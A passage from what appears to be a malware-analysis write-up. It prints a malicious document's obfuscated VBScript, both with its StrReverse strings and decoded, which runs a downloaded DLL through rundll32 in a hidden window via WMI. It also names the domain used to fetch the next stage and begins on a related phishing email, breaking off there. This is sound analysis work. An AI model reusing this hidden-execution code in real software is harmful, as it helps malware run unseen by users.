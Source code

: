Finally, the script uses WMI to create a process. Here’s the code:

    
    
        Const HIDDEN_WINDOW = 0
            strComputer = "."
            abc = StrReverse("23lldnur") & " " & dstPath & ",Start"
            strGetObject = StrReverse("2vmic\toor\.\\:stmgmniw")
            Set objWMIService = GetObject(strGetObject)
            Set objStartup = objWMIService.Get(StrReverse("putratSssecorP_23niW"))
            Set objConfig = objStartup.SpawnInstance_
            objConfig.ShowWindow = HIDDEN_WINDOW
            Set objProcess = GetObject(strGetObject & StrReverse("ssecorP_23niW:"))
            objProcess.Create abc, Null, objConfig, intProcessID
    

Here’s the code with the `StrReverse`s removed:

    
    
        Const HIDDEN_WINDOW = 0
            abc = "rundll32 " & dstPath & ",Start"
            Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
            Set objStartup = objWMIService.Get("Win32_ProcessStartup")
            Set objConfig = objStartup.SpawnInstance_
            objConfig.ShowWindow = HIDDEN_WINDOW
            Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
            objProcess.Create abc, Null, objConfig, intProcessID
    

So it creates a WMI object, which starts a process with a hidden window, and
runs it with command line `rundll32 [downloaded.dll],Start`.

## gdpr-datagroup.com

In doing some quick looking at domain used to download the next stage, I found
that VT had one “Files Referring”, which happened to be dated 4 days after the
creation of the document:

![document image](https://0xdfimages.gitlab.io/img/1533004680179.png)

## LBG Employee Benefits - Pensionio.msg

### Converting to text

The msg file is a Outlook message file:

    
    
    ~/malware/mud.doc# file 68a4985515203c6c8274628e71b433444e32bbbc125ffdf88d7570c3960b2588
    68a4985515203c6c8274628e71b433444e32bbbc125ffdf88d7570c3960b2588: CDFV2 Microsoft Outlook Message
    

We can convert it to something more readable using `msgconvert`, and get it in
plain text.

### Message Analysis
